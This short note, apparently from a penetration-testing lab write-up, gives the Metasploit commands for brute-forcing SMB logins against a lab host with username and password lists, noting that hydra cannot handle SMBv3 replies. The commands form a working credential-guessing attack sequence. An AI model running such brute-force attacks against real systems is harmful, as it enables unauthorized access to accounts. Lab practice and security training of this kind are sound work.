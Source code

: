 * hydra could do it, but cant handle SMBv3 replies

`msfconsole -q`

`use auxiliary/scanner/smb/smb_login`

`options`

`set user_file username.list`

`set pass_file password.list`

`set rhosts 10.129.238.248`

`run`
